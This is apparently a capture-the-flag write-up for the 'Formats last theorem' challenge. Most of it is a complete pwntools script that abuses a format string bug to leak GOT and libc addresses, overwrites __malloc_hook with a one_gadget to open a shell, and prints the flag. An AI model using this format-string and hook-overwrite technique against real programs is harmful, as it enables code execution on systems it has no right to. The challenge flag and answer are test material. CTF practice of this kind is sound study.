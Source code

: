 # Formats last theorem

## Description

I dare you to hook the malloc

`nc dctf-chall-formats-last-theorem.westeurope.azurecontainer.io 7482`

[formats_last_theorem](formats_last_theorem) \
[Dockerfile](Dockerfile) 

## Solution

```python
from pwn import *
import sys

nc = remote('dctf-chall-formats-last-theorem.westeurope.azurecontainer.io', 7482)


def send(payload):
    assert b'\n' not in payload
    nc.recvline()
    nc.sendline(payload)
    nc.recvline()
    l = nc.recvline().rstrip()
    nc.recvline()
    return l


def read(addr):
    try:
        return u64(send(b'%7$sAAAA' + p64(addr))[:6] + b'\x00\x00')
    except:
        log.failure("Error: read")
        exit(1)


def write(addr, val, num_bytes):
    b = sorted(enumerate(p64(val)[:num_bytes]), key=lambda x: x[1])
    written = 0
    payload = []

    for i, x in b:
        if written < x:
            payload.extend(f"%{x - written}c".encode())
            written = x
        payload.extend(f"%{11 + i}$hhn".encode())
    
    assert len(payload) < 40
    payload.extend([0] * (40 - len(payload)))
    for i in range(num_bytes):
        payload.extend(p64(addr + i))
    
    try:
        send(bytes(payload))
    except:
        log.failure("Error: write")
        exit(1)



offset = int(send(b'%15$p'), 0) - 0x10081d
log.info(f"elf @ {hex(offset)}")

puts_got   = offset + 0x300fb8
printf_got = offset + 0x300fc0
alarm_got  = offset + 0x300fc8

puts   = read(puts_got)
printf = read(printf_got)
alarm  = read(alarm_got)

libc        =  puts   - 0x080aa0
assert libc == printf - 0x064f70
assert libc == alarm  - 0x0e4610

log.info(f"libc @ {hex(libc)}")

malloc_hook = libc + 0x3ebc30
one_gadget  = libc + 0x04f432

write(malloc_hook, one_gadget, 3)

nc.recvline()
nc.sendline('%100000c')

nc.interactive()
```

#### **FLAG >>** `dctf{N0t_all_7h30r3ms_s0und_g00d}`